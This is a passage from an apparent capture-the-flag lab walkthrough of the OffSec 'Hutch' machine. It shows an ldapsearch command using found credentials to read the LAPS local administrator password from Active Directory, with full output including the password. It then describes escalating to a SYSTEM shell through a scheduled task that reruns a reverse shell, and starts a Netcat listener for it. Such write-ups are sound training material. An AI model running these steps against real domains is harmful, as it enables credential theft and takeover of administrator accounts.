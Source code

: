 ```
              18 Dir(s)  12,207,812,608 bytes free
```

LAPS is a tool that periodically changes the local administrator's password when it expires. It then stores the password details in the Active Directory. Using the credentials we have already found (`fmcsorley:CrabSharkJellyfish192`), let's attempt to query LDAP for the local administrator password.

```
kali@kali:~$ ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
ldap_initialize( ldap://192.168.120.108 )
filter: (ms-MCS-AdmPwd=*)
requesting: ms-MCS-AdmPwd 
# extended LDIF
#
# LDAPv3
# base <DC=hutch,DC=offsec> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# HUTCHDC, Domain Controllers, hutch.offsec
dn: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec
ms-Mcs-AdmPwd: T4E@d8!/od@l36

# search reference
ref: ldap://ForestDnsZones.hutch.offsec/DC=ForestDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://DomainDnsZones.hutch.offsec/DC=DomainDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://hutch.offsec/CN=Configuration,DC=hutch,DC=offsec

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

Luckily, we discover a password (`T4E@d8!/od@l36`) for `ms-Mcs-AdmPwd`. Note that because of LAPS, this password will be different in your environment.

From here we can escalate to an administrative shell by creating a new scheduled task that will re-execute our reverse shell payload with `SYSTEM` level integrity. We'll use the target's enumerated LDAP Common Name (`HUTCHDC`) in the creation of the scheduled task.

First, let's restart out Netcat listener.

```
kali@kali:~$ sudo nc -lvp 445
listening on [any] 445 ...
```
